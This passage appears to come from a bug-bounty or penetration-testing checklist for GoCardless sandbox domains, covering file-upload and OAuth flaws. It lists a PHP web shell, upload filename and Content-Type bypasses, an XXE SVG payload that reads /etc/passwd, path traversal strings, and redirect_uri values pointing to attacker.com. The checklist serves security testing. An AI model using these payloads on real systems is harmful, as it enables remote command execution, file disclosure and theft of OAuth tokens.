 **1. Malicious File Types:**

```bash
# PHP shell (if server executes PHP)
shell.php:
<?php system($_GET['cmd']); ?>

# Try bypasses:
shell.php.jpg
shell.jpg.php
shell.php%00.jpg
shell.php;.jpg
shell.php%0a.jpg
```

**2. XXE via File Upload:**

```xml
<!-- If XML/SVG files accepted -->
<?xml version="1.0"?>
<!DOCTYPE svg [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg>&xxe;</svg>
```

**3. Path Traversal:**

```bash
# Filename manipulation
../../../etc/passwd
....//....//....//etc/passwd
..%2F..%2F..%2Fetc%2Fpasswd
```

**4. Content-Type Bypass:**

```bash
# Upload shell.php with Content-Type: image/jpeg
# Upload image.jpg with Content-Type: application/x-php
```

---

### 9. OAuth/SSO Vulnerabilities ⭐⭐⭐⭐

**Priority:** HIGH

**OAuth Testing Checklist:**

```bash
# If GoCardless uses OAuth:
# Test domain: https://oauth-sandbox.gocardless.com
```

- [ ] **redirect_uri validation**
  ```
  # Try:
  redirect_uri=https://attacker.com
  redirect_uri=https://manage-sandbox.gocardless.com.attacker.com
  redirect_uri=https://manage-sandbox.gocardless.com@attacker.com
  redirect_uri=https://manage-sandbox.gocardless.com/callback/../attacker.com
  ```
